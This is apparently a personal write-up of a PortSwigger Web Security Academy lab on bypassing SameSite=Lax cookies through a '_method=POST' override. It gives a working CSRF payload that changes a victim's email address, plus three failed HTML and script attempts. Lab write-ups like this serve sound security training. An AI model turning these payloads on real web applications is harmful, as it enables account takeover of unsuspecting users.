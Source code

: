 # [Lab: SameSite Lax bypass via method override](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override)

## Lab

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

use get method to bypass samesite=Lax

## Solutions

```html
<script>
document.location = "https://id.web-security-academy.net/my-account/change-email?_method=POST&email=hacked@gmail.com";
</script>
```

## Failed attempts

- 1:

    ```html
    <html>
    <body>
        <form action="https://id.web-security-academy.net/my-account/change-email" method="GET">
        <input type="hidden" name="email" value="hacked@gmail.com" />
        </form>
        <script>document.forms[0].submit();</script>
    </body>
    </html>
    ```

- 2:

    ```html
    <script>
        document.location = 'https://id.web-security-academy.net/my-account/change-email?email=hacked@gmail.com';
    </script>
    ```

- 3:

    ```html
    <form action="https://id.web-security-academy.net/my-account" method="POST">
        <input type="hidden" name="_method" value="GET">
        <input type="hidden" name="email" value="hacked@gmail.com" />
    </form>
    <script>
    document.forms[0].submit();
    </script>
    ```
